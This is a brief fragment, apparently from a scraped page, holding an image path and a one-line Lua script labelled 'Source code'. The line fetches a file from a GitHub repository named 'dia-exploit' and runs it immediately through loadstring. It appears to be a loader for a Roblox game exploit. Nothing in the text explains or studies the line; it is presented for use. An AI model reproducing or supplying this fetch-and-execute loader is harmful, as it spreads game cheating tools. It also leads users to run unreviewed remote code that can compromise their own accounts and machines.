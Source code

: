 'loadstring(game:HttpGet('https://raw.githubusercontent.com/muffy-jpg/dia-exploit/refs/heads/main/cosinus.txt'))()'
